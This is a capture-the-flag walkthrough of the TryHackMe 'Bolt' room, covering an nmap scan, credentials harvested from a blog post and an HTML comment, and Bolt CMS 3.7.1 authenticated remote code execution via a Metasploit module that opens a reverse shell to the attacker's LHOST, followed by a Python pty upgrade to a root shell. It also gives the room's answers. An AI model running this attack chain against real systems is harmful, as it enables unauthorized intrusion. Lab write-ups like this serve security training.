








**Room Link : https://tryhackme.com/room/bolt**

# Introduction

Welcome to my writeup for the **Bolt** room on TryHackMe. This room focuses on exploiting a newer web technology—specifically **Bolt CMS**. We will enumerate the application to find credentials, exploit an authenticated Remote Code Execution (RCE) vulnerability, and traverse the system to capture the flags.

Let's dive in!

# Enumeration

## Nmap Scan

I started by deploying the machine and running a standard Nmap scan to identify open ports and services.


```bash
nmap -sV -T5 -sC 10.66.162.114 -o nmap_scan
```

Here is the raw output from my scan:

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-title: Bolt | A hero is unleashed
|_http-generator: Bolt
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Wed, 28 Jan 2026 23:52:07 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Wed, 28 Jan 2026 23:52:07 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: ba3989
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Wed, 28 Jan 2026 23:52:06 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Wed, 28 Jan 2026 23:52:06 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 6ced0c
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
My scan revealed three open ports. Port 80 is hosting a default Apache page, but Port **8000** stands out immediately. The Nmap scripts identified the title "Bolt | A hero is unleashed" and the generator tag "Bolt", confirming that the **Bolt CMS** is running on this port.

> **Answer 1**
>
>> What port number has a web server with a CMS running?
>
>> `8000`


## Enumerating the Web Application

I navigated to `http://10.66.162.114:8000` to inspect the Bolt CMS directly. The homepage featured a blog post titled **"Message From Admin"**.

Reading through the post, the author explicitly mentions their credentials:
*"Welcome to this site, myself Jake and my username is **bolt**."*



This gives us a valid username to target.

> **Answer 2**
>
>> What is the username we can find in the CMS?
>
>> `bolt`

## Finding the Password

After identifying the username, I inspected the page source code (`Ctrl+U`) to look for further clues.

Hidden within the HTML structure, I found a comment apparently meant for the IT department:

*"I suppose this is our secret forum right? ... my password is **boltadmin123** just incase you need it!"*



> **Answer 3**
>
>> What is the password we can find for the username?
>
>> `boltadmin123`

## Dashboard Access

With the credentials `bolt:boltadmin123`, I logged into the administrative panel at `/bolt`.

Once inside the dashboard, I scrolled to the footer to identify the exact version of the CMS running.


The footer confirms the version is **Bolt 3.7.1**.

> **Answer 4**
>
>> What version of the CMS is installed on the server?
>
>> `Bolt 3.7.1`

## Vulnerability Research

Knowing the CMS version (**3.7.1**) and having valid credentials, I searched Exploit-DB for potential vulnerabilities.

The room hinted at an exploit for a *previous* version. Searching for "Bolt CMS" revealed an **Authenticated Remote Code Execution (RCE)** vulnerability for version **3.7.0**.



This matches our scenario perfectly since we have a valid login.
To find the EDB-ID we can access the exploit and we will find :




> **Answer 5**
>
>> There's an exploit for a previous version of this CMS... What's its EDB-ID?
>
>> `48296`

## Metasploit Exploitation

With the vulnerability identified, I launched `msfconsole` to find the corresponding exploit module.

```bash
msf > search bolt cms
```



The search returned a module specifically designed for Authenticated RCE on Linux targets.

I selected the exploit/unix/webapp/bolt_authenticated_rce module.

>> **Answer 6**
>
>> Metasploit recently added an exploit module for this vulnerability. What's the full path?
>
>> `exploit/unix/webapp/bolt_authenticated_rce`

## Exploitation

I configured the exploit with the target details and the credentials I discovered earlier.

```bash
msf > use exploit/unix/webapp/bolt_authenticated_rce
msf > set RHOSTS 10.66.162.114 (Target IP)
msf > set RPORT 8000
msf > set USERNAME bolt
msf > set PASSWORD boltadmin123
msf > set LHOST tun0    # My VPN IP
msf > set LPORT 4444
```


With everything set, I executed the exploit.

```bash 
msf > run
```

The exploit authenticated with the CMS, injected a malicious PHP file, and successfully opened a session. I immediately checked my privileges.

```bash
[*] Command shell session 1 opened
id
# uid=0(root) gid=0(root) groups=0(root)
```
Surprisingly, the shell returned uid=0(root). This indicates the web server was running with root privileges, granting us immediate administrative access to the entire system without requiring further privilege escalation.

I upgraded to a fully interactive shell using Python:

```bash
	
python3 -c 'import pty; pty.spawn("/bin/bash")'

```


## Capturing the Flag

With root access secured, I located the flag in the **/home** directory.



**Bingo! Our flag found!**

>> **Answer 7**
>
>> Look for flag.txt inside the machine.
>
>> `THM{REDACTED}`

# Conclusion

The Bolt room was a great exercise in identifying and exploiting a vulnerability in a modern CMS. By combining standard enumeration techniques (Nmap) with open-source intelligence (reading blog posts for credentials) and vulnerability research (Exploit-DB), we were able to gain authenticated remote code execution.

## Key Takeaways:

1. **Enumeration is Key**: Reading the actual content of the web application revealed the valid username bolt.

2. **Source Code Analysis**: Checking the HTML source code (Ctrl+U) revealed the password boltadmin123 hidden in a developer comment.

3. **Critical Misconfiguration**: The web server was running as root, which turned a simple web compromise into a full system takeover immediately, bypassing the need for local privilege escalation.

Thanks for reading :)
